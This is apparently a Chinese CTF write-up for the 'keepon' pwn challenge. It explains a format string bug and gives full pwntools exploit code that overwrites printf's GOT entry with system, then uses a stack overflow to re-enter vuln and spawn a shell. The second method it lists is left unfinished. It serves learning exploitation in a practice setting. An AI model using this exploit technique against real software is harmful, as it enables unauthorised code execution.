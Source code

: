 题解：[😘欢迎回来~ | 坠入星野的月🌙 (uf4te.cn)](https://www.uf4te.cn/posts/6f874503.html#:~:text=%E5%8F%8B%E9%93%BE%E6%9C%8B%E5%8F%8B%E5%9C%88.%20%E5%AE%9E%E7%94%A8%E5%B7%A5)
# 方法一 格式化字符串漏洞
![[Pasted image 20240908192622.png]]
可以发现有格式化字符串漏洞可利用
![[Pasted image 20240908192730.png]]
给了个假的`backdoors`，运行了他会输出一个真"flag"
但也可以发现有`system`函数
可以利用格式化字符串漏洞将`printf`函数的GOT表换为`system`函数的地址，这样在运行`printf`函数的时候实际执行的就是`system`函数
利用`fmtstr_payload(偏移量, {原函数：替换后函数})`函数，可以直接构造出替换的payload
计算偏移量可用直接观察法~~目前我没观察出来~~或用`fmtstr`类提供的方法
```python
def exec_fmt(payload):
    p = process('./keepon')
    pwnlib.gdb.attach(p, 'b printf')
    p.recvuntil('name: ')
    p.recvline()
    print(payload)
    p.sendline(payload)
    info = p.recv()
    print(info)
    return info
    
if __name__ == '__main__':
    auto_fmtstr = FmtStr(exec_fmt)
```
多运行几次就会给出偏移量
将`printf`函数的GOT表地址换过之后还需至少运行一遍`printf`，故可以在第二次`read`函数内栈溢出，使`vuln`函数重运行，然后就可以运行`system`了
```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
backdoor = 0x400854
ret = 0x4005b9

def exec_fmt(payload):
    # 获取偏移
    p = process('./keepon')
    pwnlib.gdb.attach(p, 'b printf')
    p.recvuntil('name: ')
    p.recvline()
    print(payload)
    p.sendline(payload)
    info = p.recv()
    print(info)
    return info

def main():
    elf = ELF('./keepon')
    local = True
    if local:
        p = process('./keepon')
        pwnlib.gdb.attach(p, 'b *0x40076F')
    else:
        p = remote('node4.anna.nssctf.cn', 28327)
    printf_got = elf.got['printf']
    system_addr = elf.sym['system']
    vuln_addr = elf.sym['vuln']
    payload = fmtstr_payload(6, {printf_got: system_addr})
    p.recvuntil(b'name: \n')
    p.sendline(payload)
    p.recvuntil(b'keep on !\n')
    payload = b'a' * (0x50 + 8) + p64(vuln_addr)
    p.send(payload)
    p.recvuntil(b'name: \n')
    p.send(b'/bin/sh\x00')
    p.interactive()
  
if __name__ == '__main__':
    # auto_fmtstr = FmtStr(exec_fmt)
    # print(auto_fmtstr.offset)
    main()
```
# 方法二 栈迁移
还在学